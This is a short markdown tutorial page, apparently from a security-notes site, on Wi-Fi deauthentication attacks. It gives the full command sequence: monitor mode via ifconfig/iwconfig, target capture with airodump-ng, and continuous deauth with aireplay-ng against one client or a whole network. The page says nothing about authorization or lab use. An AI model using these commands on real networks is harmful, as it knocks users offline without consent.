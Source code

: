 ```yaml
---
description: >-
  A Wi-Fi deauthentication attack is a type of denial-of-service attack that
  targets communication between a user and a Wi-Fi wireless access point.
---
```


# Deauth

{% hint style="warning" %}
You will need a wifi adapter that allows monitor mode
{% endhint %}

&#x20;_**Monitor mode** allows a computer with a wireless network interface controller (WNIC) to monitor all traffic received on a wireless channel. Unlike promiscuous mode, which is also used for packet sniffing, monitor mode allows packets to be captured without having to associate with an access point or ad hoc network first. Monitor mode only applies to wireless networks, while promiscuous mode can be used on both wired and wireless networks._

## Monitor mode

{% hint style="warning" %}
run _<mark style="color:blue;">`ifconfig`</mark>_ to check the name of your network adapter, in my case it is wlan0
{% endhint %}

{% code lineNumbers="true" %}
```
# turn down the network adapter
ifconfig wlan0 down

# Changing into monitor mode
iwconfig wlan0 mode monitor

# turn up the network adapter
ifconfig wlan0 up

## run iwconfig to check if monitor mode is successfully enabled 
```
{% endcode %}

## Packet Capture

{% code lineNumbers="true" %}
```
# for all network 
airodump-ng wlan0 

# for a specified network
airodump-ng wlan0 --bssid [MAC]

```
{% endcode %}

{% hint style="info" %}
BSSID - MAC Address of an Access Point

Station - MAC Address of a Client&#x20;
{% endhint %}

## Deauth

{% code lineNumbers="true" %}
```
# on single client
aireplay-ng --deauth 0 -a [bssid] -c [station] wlan0

# on whole network
aireplay-ng --deauth 0 -a [bssid] wlan0
```
{% endcode %}

{% hint style="danger" %}
to change channel forcefully&#x20;

1\) _<mark style="color:blue;">ifconfig</mark> wlan0 down_

_2) <mark style="color:blue;">iwconfig</mark> wlan0 channel 3_

_3) <mark style="color:blue;">ifconfig</mark> wlan0 up_
{% endhint %}
